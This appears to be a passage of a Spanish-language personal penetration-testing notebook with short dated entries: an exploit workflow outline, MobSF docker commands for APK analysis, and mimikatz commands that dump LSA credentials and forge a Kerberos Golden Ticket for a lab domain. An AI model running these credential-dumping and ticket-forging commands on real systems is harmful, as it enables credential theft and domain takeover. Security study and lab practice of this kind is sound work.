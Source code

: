 Searchexploit \&lt;sistema descubierto\&gt;

Descargar exploit

Ejecutar exploit

Elevación de privilegios

Persistencia



# Mobsf - analizador de APK

lunes, 8 de marzo de 2021

17:58

docker pull opensecurity/mobile-security-framework-mobsf

docker run -it -p 8000:8000 opensecurity/mobile-security-framework-mobsf

[http://0.0.0.0:8000](http://0.0.0.0:8000/)







# mimikatz

jueves, 20 de agosto de 2020

20:21

Mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:\&lt;user\&gt;

![](RackMultipart20210412-4-pcx9xb_html_4ffd5f54d2d2cbea.png)

Create a Golden/Silver Ticket -

﻿1.) Kerberos::golden /user:Administrator /domain:controller.local /sid:\&lt;domainsid\&gt; /krbtgt:\&lt;primary:NTLM\&gt; /id:500

Use the Golden/Silver Ticket to access other machines -

﻿1.) misc::cmd - this will open a new elevated command prompt with the given ticket in mimikatz.

![](RackMultipart20210412-4-pcx9xb_html_f1e8ad9544aabacb.png)



# Mysql Exploit

martes, 21 de julio de 2020
